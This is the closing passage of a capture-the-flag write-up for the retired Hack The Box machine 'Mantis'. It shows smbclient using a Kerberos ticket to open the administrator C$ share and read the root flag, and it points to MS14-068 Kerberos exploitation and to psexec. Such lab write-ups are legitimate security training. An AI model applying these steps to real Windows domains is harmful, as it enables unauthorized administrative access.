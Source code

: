 Then connect as system with smbclient
```
root@sushi:~# smbclient -k -U james \\\\mantis.htb.local\\C$

OS=[Windows Server 2008 R2 Standard 7601 Service Pack 1] Server=[Windows Server 2008 R2 Standard 6.1]
smb: \> more \USERS\Administrator\DESKTOP\root.txt
---redacted---
```

The box may have been patched as the James user was able to just psexec onto the machine for a system shell before it was retired which was an unintented method for this one. Some further reading:

http://blog.liatsisfotis.com/knock-and-pass-kerberos-exploitation.html

https://www.trustedsec.com/2014/12/ms14-068-full-compromise-step-step/

Thanks to Hackthebox.eu for all the great machines, and lkys37en for creating this one was a fun time.
